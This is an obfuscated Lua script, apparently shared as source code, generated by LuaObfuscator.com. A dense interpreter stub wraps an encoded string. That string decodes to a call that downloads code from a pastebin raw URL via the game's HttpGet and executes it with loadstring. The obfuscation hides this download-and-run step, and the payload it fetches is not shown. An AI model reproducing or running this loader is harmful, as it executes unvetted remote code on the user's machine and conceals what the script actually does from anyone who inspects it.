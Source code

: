 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then v19=v0(v3(v30,1,1));return "";else local v88=v2(v0(v30,16));if v19 then local v117=v5(v88,v19);v19=nil;return v117;else return v88;end end end);local function v20(v31,v32,v33) if v33 then local v89=(v31/((1272 -(226 + 1044))^(v32-(2 -1))))%((5 -(12 -9))^(((v33-(1 -0)) -(v32-(2 -1))) + ((995 -(32 + 85)) -(282 + 595)))) ;return v89-(v89%(620 -(555 + 64))) ;else local v90=(2 + 0)^(v32-(1 -(1065 -(68 + 997)))) ;return (((v31%(v90 + v90))>=v90) and (932 -(840 + 17 + 74))) or (568 -(367 + 201)) ;end end local function v21() local v34=0 + (350 -(87 + 263)) ;local v35;while true do if (v34==(958 -((1072 -(67 + 113)) + 65))) then return v35;end if (v34==((0 + 0) -0)) then v35=v1(v16,v18,v18);v18=v18 + (1 -0) ;v34=1 -0 ;end end end local function v22() local v36,v37=v1(v16,v18,v18 + (4 -2) );v18=v18 + 2 + 0 ;return (v37 * (1017 -761)) + v36 ;end local function v23() local v38=952 -(802 + 150) ;local v39;local v40;local v41;local v42;while true do if (v38==(0 -0)) then v39,v40,v41,v42=v1(v16,v18,v18 + ((1192 -(1069 + 118)) -2) );v18=v18 + 3 + 1 ;v38=998 -(915 + 82) ;end if (v38==1) then return (v42 * ((107777298 -60271339) -30728743)) + (v41 * (38178 + 27358)) + (v40 * (336 -80)) + v39 ;end end end local function v24() local v43=0 -0 ;local v44;local v45;local v46;local v47;local v48;local v49;while true do if (v43==2) then v48=v20(v45,4 + 17 ,54 -23 );v49=((v20(v45,32 + 0 )==((1951 -1159) -(368 + 423))) and  -(3 -(1 + 1))) or 1 ;v43=21 -(10 + 8) ;end if (v43==(0 -0)) then v44=v23();v45=v23();v43=1 + 0 ;end if (v43==(445 -(416 + 26))) then if (v48==(0 -0)) then if (v47==0) then return v49 * (0 + 0) ;else v48=1;v46=0 -0 ;end elseif (v48==2047) then return ((v47==(438 -(145 + (1178 -(261 + 624))))) and (v49 * ((431 -(44 + 386))/(1486 -((1773 -775) + 488))))) or (v49 * NaN) ;end return v8(v49,v48-1023 ) * (v46 + (v47/((1 + 1)^(43 + 9)))) ;end if ((773 -(201 + 571))==v43) then v46=1139 -(116 + 1022) ;v47=(v20(v45,4 -3 ,12 + 8 ) * ((7 -(1085 -(1020 + 60)))^(113 -81))) + v44 ;v43=861 -(814 + 45) ;end end end local function v25(v50) local v51;if  not v50 then v50=v23();if (v50==(1423 -(630 + 793))) then return "";end end v51=v3(v16,v18,(v18 + v50) -(3 -2) );v18=v18 + v50 ;local v52={};for v69=4 -3 , #v51 do v52[v69]=v2(v1(v3(v51,v69,v69)));end return v6(v52);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v53=(function() return function(v91,v92,v93,v94,v95,v96,v97,v98) local v91=(function() return 0 -0 ;end)();local v92=(function() return;end)();local v93=(function() return;end)();while true do if (v91== #",") then if (v92== #"\\") then v93=(function() return v94()~=0 ;end)();elseif (v92==2) then v93=(function() return v95();end)();elseif (v92== #"19(") then v93=(function() return v96();end)();end v97[v98]=(function() return v93;end)();break;end if (v91~=0) then else local v123=(function() return 0;end)();local v124=(function() return;end)();while true do if (v123==0) then v124=(function() return 0;end)();while true do if (v124==(0 + 0)) then v92=(function() return v94();end)();v93=(function() return nil;end)();v124=(function() return 1;end)();end if (v124==(1 + 0)) then v91=(function() return  #"]";end)();break;end end break;end end end end return v91,v92,v93,v94,v95,v96,v97,v98;end;end)();local v54=(function() return function(v99,v100,v101,v102,v103,v104,v105,v106,v107) local v108=(function() return 0 + 0 ;end)();local v99=(function() return;end)();local v100=(function() return;end)();while true do local v116=(function() return 0;end)();while true do if (v116==(836 -(660 + 176))) then if (v108==(1 + 0)) then local v126=(function() return 0;end)();while true do if (v126==0) then while true do if ((202 -(14 + 188))==v99) then v100=(function() return v101();end)();if (v102(v100, #",", #">")==(675 -(534 + 141))) then local v182=(function() return 0 + 0 ;end)();local v183=(function() return;end)();local v184=(function() return;end)();local v185=(function() return;end)();while true do if (2~=v182) then else if (v102(v184, #"<", #" ")== #"]") then v185[2 + 0 ]=(function() return v105[v185[2]];end)();end if (v102(v184,2 + 0 ,2)== #"}") then v185[ #"nil"]=(function() return v105[v185[ #"91("]];end)();end v182=(function() return 6 -3 ;end)();end if (v182~=(4 -1)) then else if (v102(v184, #"xnx", #"-19")== #" ") then v185[ #".com"]=(function() return v105[v185[ #"http"]];end)();end v106[v107]=(function() return v185;end)();break;end if (1==v182) then local v187=(function() return 0;end)();while true do if (1==v187) then v182=(function() return 2;end)();break;end if (0~=v187) then else v185=(function() return {v103(),v103(),nil,nil};end)();if (v183==(0 + 0)) then local v191=(function() return 0;end)();local v192=(function() return;end)();while true do if (v191~=0) then else v192=(function() return 0 + 0 ;end)();while true do if (v192==(396 -(115 + 281))) then v185[ #"-19"]=(function() return v103();end)();v185[ #".com"]=(function() return v103();end)();break;end end break;end end elseif (v183== #" ") then v185[ #"-19"]=(function() return v104();end)();elseif (v183==(4 -2)) then v185[ #"xxx"]=(function() return v104() -((2 + 0)^(38 -22)) ;end)();elseif (v183~= #"91(") then else local v197=(function() return 0 -0 ;end)();local v198=(function() return;end)();while true do if (v197~=0) then else v198=(function() return 867 -(550 + 317) ;end)();while true do if (v198==0) then v185[ #"-19"]=(function() return v104() -((2 -0)^16) ;end)();v185[ #"asd1"]=(function() return v103();end)();break;end end break;end end end v187=(function() return 1;end)();end end end if (v182==0) then v183=(function() return v102(v100,2 -0 , #"nil");end)();v184=(function() return v102(v100, #"0836",16 -10 );end)();v182=(function() return 1;end)();end end end break;end end return v99,v100,v101,v102,v103,v104,v105,v106,v107;end end end if (v108==(285 -(134 + 151))) then local v127=(function() return 0;end)();while true do if (v127==0) then v99=(function() return 1665 -(970 + 695) ;end)();v100=(function() return nil;end)();v127=(function() return 1;end)();end if (v127==(1 -0)) then v108=(function() return 1;end)();break;end end end break;end end end end;end)();local v55=(function() return function(v109,v110,v111) local v112=(function() return 0;end)();while true do if (v112~=(1990 -(582 + 1408))) then else local v125=(function() return 0 -0 ;end)();while true do if (v125~=(0 -0)) then else local v128=(function() return 0 -0 ;end)();while true do if (v128==0) then v109[v110-#"<" ]=(function() return v111();end)();return v109,v110,v111;end end end end end end end;end)();local v56=(function() return {};end)();local v57=(function() return {};end)();local v58=(function() return {};end)();local v59=(function() return {v56,v57,nil,v58};end)();local v60=(function() return v23();end)();local v61=(function() return {};end)();for v71= #"{",v60 do FlatIdent_31A5A,Type,Cons,v21,v24,v25,v61,v71=(function() return v53(FlatIdent_31A5A,Type,Cons,v21,v24,v25,v61,v71);end)();end v59[ #"19("]=(function() return v21();end)();for v72= #",",v23() do FlatIdent_31905,Descriptor,v21,v20,v22,v23,v61,v56,v72=(function() return v54(FlatIdent_31905,Descriptor,v21,v20,v22,v23,v61,v56,v72);end)();end for v73= #":",v23() do v57,v73,v28=(function() return v55(v57,v73,v28);end)();end return v59;end local function v29(v63,v64,v65) local v66=v63[1825 -(1195 + 91 + 538) ];local v67=v63[2 -(0 -0) ];local v68=v63[3];return function(...) local v74=v66;local v75=v67;local v76=v68;local v77=v27;local v78=242 -(187 + (119 -(30 + 35))) ;local v79= -(781 -(162 + 618));local v80={};local v81={...};local v82=v12("#",...) -(1 + 0) ;local v83={};local v84={};for v113=0,v82 do if ((v113>=v76) or (2874<2181)) then v80[v113-v76 ]=v81[v113 + ((1258 -(1043 + 214)) -0) ];else v84[v113]=v81[v113 + (1 -0) ];end end local v85=(v82-v76) + (3 -2) + 0 ;local v86;local v87;while true do v86=v74[v78];v87=v86[1637 -(1373 + 263) ];if ((v87<=(1003 -(451 + 549))) or (2689<=343)) then if (v87<=(1 + 0)) then if ((v87==(0 -0)) or (1869==2009)) then v84[v86[2 -(1212 -(323 + 889)) ]]=v86[3];else v84[v86[2]]={};end elseif (v87==2) then local v132=v86[1386 -(746 + 638) ];local v133=v84[v86[2 + 1 ]];v84[v132 + ((2 -1) -(580 -(361 + 219))) ]=v133;v84[v132]=v133[v86[345 -(218 + 123) ]];else do return;end end elseif (v87<=(1586 -(1535 + 46))) then if (v87==4) then v84[v86[2 + 0 ]]=v65[v86[1 + 2 ]];else v84[v86[562 -((626 -(53 + 267)) + 254) ]]();end elseif (v87<=(1 + 5)) then local v139=0 -0 ;local v140;local v141;local v142;local v143;local v144;while true do if ((v139==(1475 -(204 + 695 + (981 -(15 + 398))))) or (3546<2322)) then v86=v74[v78];v84[v86[2 + 0 ]]();v78=v78 + (2 -1) ;v86=v74[v78];v139=612 -((1250 -(18 + 964)) + 335) ;end if ((v139==((1106 -812) -(60 + 134 + 96))) or (2082==4773)) then v84[v144]=v143[v86[576 -(269 + 157 + 146) ]];v78=v78 + 1 + (850 -(20 + 830)) ;v86=v74[v78];v84[v86[2]]=v86[3];v139=1461 -(282 + 1174) ;end if ((3244>1055) and (v139==(814 -(445 + 124 + (368 -(116 + 10)))))) then v86=v74[v78];v144=v86[5 -3 ];v143=v84[v86[1 + 1 + 1 ]];v84[v144 + (1025 -(706 + 318)) ]=v143;v139=1255 -(721 + 530) ;end if ((v139==(1277 -(945 + 326))) or (3313<=1778)) then v79=(v142 + v144) -1 ;v140=0 -0 ;for v177=v144,v79 do v140=v140 + 1 + 0 ;v84[v177]=v141[v140];end v78=v78 + ((1439 -(542 + 196)) -((580 -309) + 429)) ;v139=7 + 0 ;end if (v139==(2 + 3)) then v78=v78 + (1501 -(1408 + 92)) ;v86=v74[v78];v144=v86[1088 -(461 + 318 + 307) ];v141,v142=v77(v84[v144](v13(v84,v144 + (1289 -(993 + 295)) ,v86[1 + 0 + 2 ])));v139=6;end if ((v139==(1171 -(418 + 753))) or (1421>=2104)) then v140=nil;v141,v142=nil;v143=nil;v144=nil;v139=1 + 0 ;end if ((1812<=3249) and (v139==(1 + 6))) then v86=v74[v78];v144=v86[(2 -1) + 1 ];v84[v144]=v84[v144](v13(v84,v144 + 1 + 0 ,v79));v78=v78 + (530 -(406 + 123)) ;v139=1777 -((4483 -2734) + 20) ;end if (v139==((1554 -(1126 + 425)) + 6)) then do return;end break;end if ((1623<=1957) and (v139==(1324 -((1654 -(118 + 287)) + 73)))) then v78=v78 + 1 + (0 -0) ;v86=v74[v78];v84[v86[1147 -(466 + 679) ]]=v65[v86[1124 -(118 + 1003) ]];v78=v78 + (2 -(2 -1)) ;v139=8 -5 ;end if ((1901 -(106 + (2171 -(142 + 235))))==v139) then v84[v86[1 + 1 ]]={};v78=v78 + 1 + 0 ;v86=v74[v78];v84[v86[2]]=v65[v86[8 -5 ]];v139=(22 -17) -3 ;end end elseif ((4412==4412) and (v87>(121 -(4 + 110)))) then local v145=v86[586 -(57 + 527) ];local v146,v147=v77(v84[v145](v13(v84,v145 + (1428 -(41 + 1386)) ,v86[106 -(17 + 86) ])));v79=(v147 + v145) -(1 + 0) ;local v148=0 -0 ;for v174=v145,v79 do v148=v148 + (2 -1) ;v84[v174]=v146[v148];end else local v149=166 -(122 + 10 + 34) ;local v150;while true do if (v149==(0 -0)) then v150=v86[(983 -(553 + 424)) -4 ];v84[v150]=v84[v150](v13(v84,v150 + 1 ,v79));break;end end end v78=v78 + 1 + 0 ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F747A673455454B6900094Q00067Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
